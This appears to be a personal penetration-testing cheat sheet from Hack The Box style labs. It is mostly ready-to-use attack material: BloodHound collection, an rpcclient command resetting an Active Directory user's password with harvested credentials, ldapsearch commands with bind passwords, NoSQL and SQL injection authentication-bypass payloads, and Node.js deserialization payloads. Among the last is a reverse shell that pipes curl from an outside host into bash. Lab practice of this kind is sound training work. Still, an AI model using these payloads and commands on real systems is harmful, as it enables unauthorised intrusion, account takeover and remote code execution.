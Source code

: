 Invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvic


## reset ad user passwd through rpclient

    rpcclient -U 'blackfield.local/support%#00^BlackKnight' 10.10.10.192 -c 'setuserinfo2 audit2020 23 "0xdf!!!"'



## Ldapsearch

	ldapsearch -h localhost -p 389 -w J~42%W?PFHl]g -D 'cn=binduser,ou=users,dc=pikaboo,dc=htb' -b "dc=pikaboo,dc=htb" -s sub "(objectclass=*)"

https://jonlabelle.com/snippets/view/markdown/ldap-search-filter-cheatsheet

	ldapsearch -LLL -x -H ldap://adlab.local -b '' -s base '(objectclass=*)'

    ldapsearch -h 10.10.10.161 -p 389 -x -b "dc=htb,dc=local"

    ldapsearch -x -b <search_base> -H <ldap_host> -D <bind_dn> -W "objectclass=account"

## windapsearch

    windapsearch -m users -d htb.local --dc-ip 10.10.10.161 

## NoSQL

{"username": {"$ne": null}, "password": {"$ne": null}}

## SQL

PAYLOAD : admin'||''==='

' OR 1 LIMIT 1, 2-- -


## Node.js

```
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /',function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```
reverse shell
```
_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl 10.9.172.114:8000/shell.sh | bash ', function(error, stdout, stderr) { console.log(stdout) });\n }()

{"exec":"require('child_process').execSync('echo <base64> | base64 -d | bash').toString();"}

```
https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/
